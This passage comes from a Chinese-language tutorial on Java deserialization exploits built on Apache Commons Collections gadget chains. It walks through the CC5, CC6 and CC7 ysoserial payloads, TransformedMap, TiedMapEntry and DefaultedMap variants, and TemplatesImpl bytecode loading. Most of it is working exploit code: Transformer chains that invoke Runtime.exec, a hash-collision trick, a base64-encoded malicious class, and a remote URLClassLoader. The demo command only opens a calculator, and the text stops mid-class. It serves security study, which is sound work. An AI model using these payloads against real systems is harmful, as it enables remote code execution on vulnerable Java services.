for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
if ((e.hash == hash) && e.key.equals(key)) {
throw new java.io.StreamCorruptedException();
}
}
// Creates the new entry.
@SuppressWarnings("unchecked")
Entry<K,V> e = (Entry<K,V>)tab[index];
tab[index] = new Entry<>(hash, key, value, e);
count++;
}首先 reconstitutionPut 方法的逻辑是，如果 key 不存在于当前 tab 中，则创建新的 entry。而想触发调用 e.key.equals(key)，则需要满足以下条件：
- 有两个
key(LazyMap)的index相同，index的计算方式为(hash & 0x7FFFFFFF) % tab.length，0x7FFFFFFF表示一律转换为正数（所以，index相同不代表hash相同）。 - 有两个
key(LazyMap)的hash值也相同『e.hash == hash』，大致的逻辑是第一个放入的key(LazyMap)不存在，被放入成员tab中，第二次再放入一个key(LazyMap)，它的hash值与前者相同，触发e.key.equals(key)。
那如何才能让两个 LazyMap 的 hash 值相同呢？
首先前面示例中 LazyMap 的底层 map 为 HashMap，而它的 hashCode 方法为 AbstractMap#hashCode 方法如下，可以看到计算方法为遍历 entrySet 累加它们的 hash 值，
public int hashCode() {
int h = 0;
Iterator<Entry<K,V>> i = entrySet().iterator();
while (i.hasNext())
h += i.next().hashCode();
return h;
}而 HashMap#entrySet 的实现如下，直接返回内部的 Map.Entry<K,V>()，
public Set<Map.Entry<K,V>> entrySet() {
Set<Map.Entry<K,V>> es;
return (es = entrySet) == null ? (entrySet = new EntrySet()) : es;
}
但实现类是 HashMap$Node<K,V>，hashCode 方法如下
public final int hashCode() {
return Objects.hashCode(key) ^ Objects.hashCode(value);
}所以最简单的方式，只需要让两个 LazyMap 的 key 和 value 都相同即可。那是不是把代码改成这样就行？
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), fake);
lazyMap.put("kk", "v1");
LazyMap lazyMap2 = (LazyMap) LazyMap.decorate(new HashMap(), fake);
lazyMap2.put("kk", "v1");
Hashtable hashtable = new Hashtable<>();
hashtable.put(lazyMap, 1);
hashtable.put(lazyMap2, 2);当然不可以，查看一下 Hashtable#put 方法，如果它们的哈希值相同且 lazyMap.equals(lazyMap2) == true，Hashtable 就没法同时容纳它们两个，lazyMap2 是放不进去。而 equals 方法的实现在这里就是 AbstractMap#equals，只要内部的 key 和 value 都相同即可。
public synchronized V put(K key, V value) {
// Make sure the value is not null
if (value == null) {
throw new NullPointerException();
}
// Makes sure the key is not already in the hashtable.
Entry<?,?> tab[] = table;
int hash = key.hashCode();
int index = (hash & 0x7FFFFFFF) % tab.length;
@SuppressWarnings("unchecked")
Entry<K,V> entry = (Entry<K,V>)tab[index];
for(; entry != null ; entry = entry.next) {
if ((entry.hash == hash) && entry.key.equals(key)) { // [4] 调用 AbstractMap#equals 方法。
V old = entry.value;
entry.value = value;
return old;
}
}
addEntry(hash, key, value, index);
return null;
}为此需要一种方式，能够在 Hashtable#put 之前保证两个 LazyMap 的 hash 值的计算结果不同，在 Hashtable#put 之后，又让它们的 hash 值的计算结果相同。但直接做到这一点几乎是不可能的事情。
所以需要思考另一种方式解决这个问题，
这里回看 AbstractMap#equals，你是否会觉得熟悉，前面的示例里提到过 AbstractMap#equals 能够调用到 LazyMap#get 方法。而这可以使得被放入的 LazyMap 的 hash 值的计算结果发生变化（LazyMap#get 方法会根据 factory 成员插入新元素），这听上去不错，因为可通过 LazyMap#remove 方法让 hash 值的计算结果恢复原样。
到这里似乎有办法完成前面设想的后半部分了，但是要知道若想触发 [4] 的调用，需要满足一些条件，前后插入的两个 LazyMap 的 hash 值相同；value 不为 null。
下面思考一个问题，前面的示例 lazyMap.put("kk", "v1"); lazyMap2.put("kk", "v1"); ，会触发 AbstractMap#equals，那么会触发 LazyMap#get 方法吗？如果触发了，为什么 lazyMap2 的 hash 值计算结果没有发生变化。
答案是：会触发，但是因为两者的
key都是kk，而lazyMap2中已经有了kk关联的value，所以不会插入新元素了。
那么最后，只剩下一点需要解决，能不能找到一种情况，让 lazyMap 和 lazyMap2 到 hash 值相同但是 key 不相同。根据前面的分析可以知道，如过使用 HashMap 的话 hash 的计算方式为
public final int hashCode() {
return Objects.hashCode(key) ^ Objects.hashCode(value);
}假定 value 相同，只考虑 key，可以通过暴力枚举的方式找到两个 key，它们的 Objects.hashCode(key) 相同。
这两个 key 值就是 yy 和 zZ，当然此答案不唯一。
LazyMapHashTableExec.java
有了前面的分析结果，就可以开始编写利用链构造代码了
public static Object getObject() throws Exception {
ChainedTransformer fakeTransformer =
new ChainedTransformer(new Transformer[] {new ConstantTransformer("1")});
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), fakeTransformer);
lazyMap.put("yy", 1);
// 于 lazyMap 的 hash 值计算结果相同，但是 key 不同
LazyMap lazyMap2 = (LazyMap) LazyMap.decorate(new HashMap<>(), fakeTransformer);
lazyMap2.put("zZ", 1);
Hashtable hashtable = new Hashtable<>();
hashtable.put(lazyMap, 1);
hashtable.put(lazyMap2, 2);
Reflections.setFieldValue(lazyMap2, "factory", chainedTransformer);
// 此时 lazyMap2 size 为 2，删除多余内容，恢复 lazyMap2 的 hash 值计算结果
lazyMap2.remove("yy");
return hashtable;
}简化版调用关系梳理
反序列化时的调用过程
Hashtable.readObject
// 插入第一个 Entry， key 为 lazyMap
Hashtable.reconstitutionPut
// 插入第二个 Entry， key 为 lazyMap
Hashtable.reconstitutionPut
// 与 lazyMap 的 hash 相同，触发 equals 调用
(e.hash == hash) && e.key.equals(key)
AbstractMap<K,V>.equals
// 调用 get 方法，实际触发的为 lazyMap2.get(key)，进而触发 transformer 执行命令。
value.equals(m.get(key))ysoserial/CommonsCollections7
以下为 CommonsCollections7 的构造代码。
public Hashtable getObject(final String command) throws Exception {
// Reusing transformer chain and LazyMap gadgets from previous payloads
final String[] execArgs = new String[]{command};
final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}),
new InvokerTransformer("exec",
new Class[]{String.class},
execArgs),
new ConstantTransformer(1)};
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();
// Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy", 1);
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);
// Use the colliding Maps as keys in Hashtable
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);
Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
// Needed to ensure hash collision after previous manipulations
lazyMap2.remove("yy");
return hashtable;
}TransformedMap 利用链
TransformedMap 可以说是 LazyMap 的孪生兄弟，都出自 commons-collections 库中，且都继承自 AbstractMapDecorator
根据公开资料，最早讲到 TransformedMap 应该是 Code White 的这篇 Slide：Exploiting Deserialization Vulnerabilities in Java，国内最早在长亭科技的博客文章《Lib 之过？Java 反序列化漏洞通用利用分析》中出现。
前面内容中已经介绍了 LazyMap 的特点，调用 get 方法时，若 key 值不存在，则根据 factory(Transformer) 成员创建一个对应的 value。
而 TransformedMap 和它类似，当调用 put 方法时支持通过 keyTransformer|valueTransformer(Transformer) 来修改插入的内容。
public Object put(Object key, Object value) {
key = this.transformKey(key);
value = this.transformValue(value);
return this.getMap().put(key, value);
}TransformedMapExec.java
那么类似的，可通过下面的代码触发命令执行。
public class TransformedMapExec {
public static void main(String[] args) {
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"calc"})
});
// chainedTransformer 作为第二个参数也可以
TransformedMap transformedMap =
(TransformedMap) TransformedMap.decorate(new HashMap<>(), chainedTransformer, null);
transformedMap.put("k", "v");
}
}那么如何触发 TransformedMap#put 方法呢？答案还是那个熟悉的 AnnotationInvocationHandler，在它的 readObject 方法中会调用 memberValue.setValue。实际调用的也就是 TransformedMap$MapEntry#setValue
public Object setValue(Object value) {
value = this.parent.checkSetValue(value); // [5]
return super.entry.setValue(value);
}[5] 进一步调用 checkSetValue，而 TransformedMap 实现了自己的 checkSetValue 方法，
protected Object checkSetValue(Object value) {
return this.valueTransformer.transform(value);
}需要注意这里使用的是
valueTransformer，所以在完整的利用链构造代码中chainedTransformer作为第二个参数才对。
TransformedMapAnnotationExec.java
思路有了，那就上代码吧
public static Object getObject() throws Exception {
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
TransformedMap transformedMap =
(TransformedMap) TransformedMap.decorate(new HashMap<>(), null, null);
transformedMap.put("type", 1);
InvocationHandler handler =
(InvocationHandler)
Reflections.getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(AMXMetadata.class, transformedMap);
Reflections.setFieldValue(transformedMap, "valueTransformer", chainedTransformer);
return handler;
}这里有有几个问题说明以下，为了触发 memberValue.setValue，需要满足如下条件
Class<?> memberType = memberTypes.get(name);
if (memberType != null) { // i.e. member still exists
Object value = memberValue.getValue();
if (!(memberType.isInstance(value) ||
value instanceof ExceptionProxy))memberType不为nullmemberType.isInstance(value)（memberType的类型与value不相同），或value instanceof ExceptionProxy（value类型不是ExceptionProxy）
而 memberType 是通过 annotationType.memberTypes(); 获取的，通过注释可以了解到，它获取的就是注解中声明的方法，以及返回参数的映射关系，类型为 HashMap 。想满足上面的条件非常简单，随意找了一个 JDK 内置的注解类 AMXMetadata，过程不多赘述了。
TiedMapEntry 利用链
前面已经提过 CC1 和 CC7 利用链，从 CC1 到 CC7，出发点是解决高版本 JDK 无法使用的问题，通过 HashTable 来衔接 LazyMap。
这里介绍另一种方式 TiedMapEntry，注释中写道这个类的功能是可以动态改变内部 map 的内容。
This can be used to enable a map entry to make changes on the underlying map, however this will probably mess up any iterators.
TiedMapEntry 可以被序列化，但没有实现自定义的 readObject 方法。不过这不是需要关注的内容，来看看它的 hashCode 方法
public int hashCode() {
Object value = getValue();
return (getKey() == null ? 0 : getKey().hashCode()) ^
(value == null ? 0 : value.hashCode());
}
public Object getValue() {
return map.get(key); // 触发 get 方法
}hashCode 方法会触发 get 方法，如果 map 类型为 LazyMap 那么就能够执行命令
TiedMapEntryExec.java
按照思路可以很快写出下面的代码
public static void main(String[] args){
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "k");
tiedMapEntry.hashCode();
}TiedMapEntryHashMapExec.java
如何连接起 TiedMapEntry#hashCode 和 某个 readObject 方法？可以想一想 hashCode 方法在哪些类中会经常用到，HashMap、Hashtable、HashSet、ConcurrentHashMap 等。这些都是 JDK 中的基础类。
以 HashMap 为例，可构造如下利用链
public static Object getObject() throws Exception {
ChainedTransformer fakeTransformer =
new ChainedTransformer(new Transformer[] {new ConstantTransformer("1")});
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), fakeTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "fake");
HashMap hashMap = new HashMap<>();
hashMap.put(tiedMapEntry, "v");
Reflections.setFieldValue(lazyMap, "factory", chainedTransformer);
// 修改 key 的值，从而触发 LazyMap#get 中 factory.transform 方法的执行
Reflections.setFieldValue(tiedMapEntry, "key", "k");
return hashMap;
}其它可以自由探索了
简化版调用关系梳理
整个链条不算复杂，下面为调用链梳理
HashMap.readObject
// 反序列化 TiedMapEntry
(K) s.readObject();
// 计算 tiedMapEntry 的 hash 值
hash(key)
// 调用 tiedMapEntry.hashCode 方法
key.hashCode()
Object value = getValue();
// 触发 LazyMap.get 方法，实现命令执行
map.get(key);ysoserial/CommonsCollections6
CC6 中使用的是 HashSet，整个构造过程显得有点臃肿，这里仅列出代码不进行分析了。
public Serializable getObject(final String command) throws Exception {
final String[] execArgs = new String[] { command };
final Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, execArgs),
new ConstantTransformer(1) };
Transformer transformerChain = new ChainedTransformer(transformers);
final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
HashSet map = new HashSet(1);
map.add("foo");
Field f = null;
try {
f = HashSet.class.getDeclaredField("map");
} catch (NoSuchFieldException e) {
f = HashSet.class.getDeclaredField("backingMap");
}
Reflections.setAccessible(f);
HashMap innimpl = (HashMap) f.get(map);
Field f2 = null;
try {
f2 = HashMap.class.getDeclaredField("table");
} catch (NoSuchFieldException e) {
f2 = HashMap.class.getDeclaredField("elementData");
}
Reflections.setAccessible(f2);
Object[] array = (Object[]) f2.get(innimpl);
Object node = array[0];
if(node == null){
node = array[1];
}
Field keyField = null;
try{
keyField = node.getClass().getDeclaredField("key");
}catch(Exception e){
keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
}
Reflections.setAccessible(keyField);
keyField.set(node, entry);
return map;
}BadAttributeValueExpException 利用链
BadAttributeValueExpException 只在 CC5 中使用过，它可以配合前面提到的 TiedMapEntry 类构造完整的利用链。
它的 readObject 方法如下
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
ObjectInputStream.GetField gf = ois.readFields();
Object valObj = gf.get("val", null);
if (valObj == null) {
val = null;
} else if (valObj instanceof String) {
val= valObj;
} else if (System.getSecurityManager() == null
|| valObj instanceof Long
|| valObj instanceof Integer
|| valObj instanceof Float
|| valObj instanceof Double
|| valObj instanceof Byte
|| valObj instanceof Short
|| valObj instanceof Boolean) {
val = valObj.toString(); // [6]
} else { // the serialized object is from a version without JDK-8019292 fix
val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
}
}注意其中的 valObj.toString() 方法调用，再回过头看看 TiedMapEntry#toString 方法，其中也会调用 getValue 方法。
public String toString() {
return getKey() + "=" + getValue();
}BadAttributeValueExpExceptionExec.java
有了前面的基础，通过如下代码构造利用链
public static Object getObject() throws Exception {
ChainedTransformer fakeTransformer =
new ChainedTransformer(new Transformer[] {new ConstantTransformer("1")});
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), fakeTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "fake");
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
// 修改 val 的值，避免序列化时触发 toString 方法
Reflections.setFieldValue(badAttributeValueExpException, "val", tiedMapEntry);
// 修改 key 的值，从而触发 LazyMap#get 中 factory.transform 方法的执行
Reflections.setFieldValue(tiedMapEntry, "key", "k");
Reflections.setFieldValue(lazyMap, "factory", chainedTransformer);
return badAttributeValueExpException;
}ysoserial/CommonsCollections5
CC5 的实现与 BadAttributeValueExpExceptionExec.java 是几乎一致的，不赘述。
public BadAttributeValueExpException getObject(final String command) throws Exception {
final String[] execArgs = new String[] { command };
// inert chain for setup
final Transformer transformerChain = new ChainedTransformer(
new Transformer[]{ new ConstantTransformer(1) });
// real chain for after setup
final Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, execArgs),
new ConstantTransformer(1) };
final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
Reflections.setAccessible(valfield);
valfield.set(val, entry);
Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain
return val;
}简化版调用关系梳理
BadAttributeValueExpException.readObject
// 调用 TiedMapEntry.toString() 方法
valObj.toString();
Object value = getValue();
// 触发 LazyMap.get 方法，实现命令执行
map.get(key);调试问题
由于 Runtime.exec 自身实现的一些问题（抱歉，我也不知道具体是什么问题），当你下断点时，可能会遇到还未到 LazyMap 的 get 方法，就已经弹窗。
此时可能会误以为，LazyMap#get 方法没有执行 factory.transform(key);，这会影响调试过。所以在学习和分析时，可以使用 fakeTransformer，而没必要真的使用能够命令执行的 Transformer。
DefaultedMap
这部分是后续补充的。
除了 LazyMap，commons-collection4:4.0 中（3.x 中仅 3.2.x 有）有另一个类 DefaultedMap，同样继承自 AbstractMapDecorator，也是一个装饰器类。
它的 get 方法是不是十分熟悉，不能说和 LazyMap 一模一样，但可以说是十分相似了。
public V get(final Object key) {
// create value for key if key is not currently in the map
if (map.containsKey(key) == false) {
return value.transform((K) key);
}
return map.get(key);
}BadAttributeValueExpExceptionDefaultedMapExec.java
那么将 LazyMap 替换成 DefaultedMap 同样可以构造一条利用链。
public static Object getObject() throws Exception {
ConstantTransformer fakeTransformer = new ConstantTransformer("1");
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
DefaultedMap defaultedMap = new DefaultedMap(fakeTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(defaultedMap, "fake");
BadAttributeValueExpException badAttributeValueExpException =
new BadAttributeValueExpException(null);
// 修改 val 的值，避免序列化时触发 toString 方法
Reflections.setFieldValue(badAttributeValueExpException, "val", tiedMapEntry);
// 修改 key 的值，从而触发 LazyMap#get 中 factory.transform 方法的执行
Reflections.setFieldValue(tiedMapEntry, "key", "k");
Reflections.setFieldValue(defaultedMap, "value", chainedTransformer);
return badAttributeValueExpException;
}简化版调用关系梳理
BadAttributeValueExpException.readObject
// 调用 TiedMapEntry.toString() 方法
valObj.toString();
Object value = getValue();
// 触发 DefaultedMap.get 方法，实现命令执行
map.get(key);TemplatesImpl 利用链
前面介绍的利用链的都是围绕 Transformer 达到命令执行的，但在 Java 中想要做到命令执行，有很多种方式。而其中一种，就是字节码的动态加载，字节码是针对 JVM 的一种指令集，理论上对于任何语言，只要能将源代码编译成 字节码就可以在 JVM 上执行。
例如，Java、Kotlin、Groovy、Scala 等。
在 Java 安全 - 反射 中有提到过 Class.forName 方法默认进行初始化操作从而执行静态块中的内容，对于类加载器来说可能有点不一样。
URLClassLoaderExec.java
下面演示通过 URLClassLoader 加载远程的 class 文件。
public static void main(String[] args)
throws Exception {
URL[] urls = {new URL("http://localhost:8000/")};
URLClassLoader loader = URLClassLoader.newInstance(urls);
Class<?> c = loader.loadClass("Evil");
c.newInstance();
}
public class Evil {
static {
try {
Runtime.getRuntime().exec("open -a calculator");
} catch (IOException e) {
throw new RuntimeException(e);
}
}
}通常情况下，Java 会根据配置项 sun.boot.class.path 和 java.class.path 中列举到的基础路径（这些路径是经过处理后的 java.net.URL 类）来寻找 class 文件来加载，而这个基础路径有分为三种情况：
URL未以斜杠/结尾，则认为是一个jar文件，使用JarLoader来寻找类，即在Jar包中寻找class文件URL以斜杠/结尾，且协议名是file，则使用FileLoader来寻找类，即在本地文件系统中寻找class文件URL以斜杠/结尾，且协议名不是file，则使用最基础的Loader来寻找类
URLClassLoader 则常用于 http 协议，当然 Java 的 URL 支持的协议远不止 http 这一种，这里先不关注。
测试 http 协议，可以看到 static 块中的代码被成功执行。

ClassLoader#defineClass
Java 中类的加载通过分为下面 3 个过程 loadClass -> findClass -> defineClass
loadClass的作用是从已加载的类缓存、父加载器等位置寻找类（这里实际上是双亲委派机制），在前面没有找到的情况下，执行findClassfindClass的作用是根据基础URL指定的方式来加载类的字节码，就像上一节中说到的，可能会在本地文件系统、jar包或远程http服务器上读取字节码，然后交给defineClassdefineClass的作用是处理前面传入的字节码，将其处理成真正的 Java Class 实例
下面的代码展示通过 ClassLoader#defineClass 加载字节码的过程，
public static void main(String[] args) throws Exception {
// defineClass 方法为 protected，无法直接访问
Method defineClass =
ClassLoader.class.getDeclaredMethod(
"defineClass", String.class, byte[].class, int.class, int.class);
defineClass.setAccessible(true);
byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIwoACQATCgAUABUIABYKABQAFwcAGAcAGQoABgAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGAEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAAoACwcAHQwAHgAfAQASb3BlbiAtYSBjYWxjdWxhdG9yDAAgACEBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAIgEABEV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAMACAAOAAsAAQAMAAAAVAADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv7EAAQAAAAkADAAFAAIADQAAABYABQAAAAYACQAJAAwABwANAAgAFgAKAA8AAAAHAAJMBwAQCQABABEAAAACABI=");
Class<?> evil =
(Class<?>)
defineClass.invoke(
ClassLoader.getSystemClassLoader(), "Evil", code, 0, code.length);
evil.newInstance();
}你可以通过获取 Evil.class base64 编码后对内容
cat Evil.class | base64需要注意
ClassLoader#defineClass/loadClass方法默认都不会对类进行初始化，需要调用newInstance方法才能触发执行。
TemplatesImpl
通常类加载器的大部分接口是不对外开放到，但是总会有开发人员对类加载器进行封装，这给了我们机会。TemplatesImpl 就是其中之一。
TemplatesImpl 源自 org.apache.xalan:xalan，原本是一个独立的工件包，之后被合入到 JDK 中，并将包名更改为 com.sun.org.apache.xalan
Xalan是XML的拓展功能的一种，支持将XML转换为HTML或其它标记性语言，由IBM提出，标准见 xslt 。
TemplatesImpl 内部实现了一个类加载器 TransletClassLoader，它重写了 defineClass 方法作用域为 default，可以被外部调用。
Class defineClass(final byte[] b) {
return defineClass(null, b, 0, b.length);
}在 TemplatesImpl 内部 getTransletInstance 方法会使用 defineClass
private Translet getTransletInstance()
throws TransformerConfigurationException {
try {
if (_name == null) return null;
if (_class == null) defineTransletClasses();
// The translet needs to keep a reference to all its auxiliary
// class to prevent the GC from collecting them
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance(); // [7] 调用了 newInstance 方法调用路径是 getTransletInstance -> defineTransletClasses -> defineClass，但 getTransletInstance 是私有方法，但还有另外两个方法能够调用到 getTransletInstance， TemplatesImpl#newTransformer 和 TemplatesImpl#getOutputProperties，[8] 会调用 getTransletInstance 方法。
public synchronized Transformer newTransformer()
throws TransformerConfigurationException
{
TransformerImpl transformer;
transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
_indentNumber, _tfactory); // [7] 调用 getTransletInstance
// ...
public synchronized Properties getOutputProperties() {
try {
return newTransformer().getOutputProperties(); // [8] 调用 newTransformer
}
// ...TemplatesImpl 大部分方法都是 private 或 protocted，无法使用常规方法设置它的成员，这里可以直接使用反射。
public static void main(String[] args) throws Exception {
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIwoACQATCgAUABUIABYKABQAFwcAGAcAGQoABgAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGAEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAAoACwcAHQwAHgAfAQASb3BlbiAtYSBjYWxjdWxhdG9yDAAgACEBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAIgEABEV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAMACAAOAAsAAQAMAAAAVAADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv7EAAQAAAAkADAAFAAIADQAAABYABQAAAAYACQAJAAwABwANAAgAFgAKAA8AAAAHAAJMBwAQCQABABEAAAACABI=");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
templatesImpl.newTransformer();
}使用前面的 Evil 类，并尝试调用 TemplatesImpl#newTransformer 方法，但并没有成功执行，并且抛出如下异常
Exception in thread "main" java.lang.NullPointerException
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.defineTransletClasses(TemplatesImpl.java:422)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:451)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.trganda.loader.TemplatesImplLoader.main(TemplatesImplLoader.java:18)
产生错误的原因在 defineTransletClasses 方法中，前面设定的 _bytecodes 长度是 1，所以这里的 _auxClasses 为 null 从而引发异常。
final int classCount = _bytecodes.length;
_class = new Class[classCount];
if (classCount > 1) {
_auxClasses = new HashMap<>();
}
for (int i = 0; i < classCount; i++) {
_class[i] = loader.defineClass(_bytecodes[i]);
final Class superClass = _class[i].getSuperclass();
// Check if this is the main class
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
_transletIndex = i;
}
else {
_auxClasses.put(_class[i].getName(), _class[i]);
}
}
if (_transletIndex < 0) {
ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
throw new TransformerConfigurationException(err.toString());
}那么让 _bytecodes 长度大于 1 就可以了吗？也不行，因为 _transletIndex 必须大于等于 0 方法才能正常返回。而这里有一个条件 superClass.getName().equals(ABSTRACT_TRANSLET)， 要求父类为 ABSTRACT_TRANSLET
com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTransletEvilTranslet.java
按照判断条件重新编写一个 EvilTranslet.java
public class EvilTranslet extends AbstractTranslet {
static {
try {
Runtime.getRuntime().exec("open -a calculator");
} catch (IOException e) {
throw new RuntimeException(e);
}
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
